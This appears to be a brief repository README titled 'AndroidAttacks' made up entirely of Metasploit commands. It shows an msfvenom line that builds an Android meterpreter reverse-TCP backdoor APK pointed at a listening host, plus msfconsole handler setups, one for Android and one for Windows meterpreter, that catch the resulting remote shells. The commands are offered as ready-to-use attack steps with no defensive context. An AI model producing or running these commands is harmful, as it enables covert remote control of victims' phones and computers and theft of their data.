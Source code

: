 # AndroidAttacks

## Running msfconsole one-liner
```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <listening_host>;set LPORT <listening_port>;run;"
```

## Creates a backdoor
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.178.30 LPORT=4444 R > result.apk
```

## Runs a listener
```
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.178.30
set LPORT 4444
exploit
```
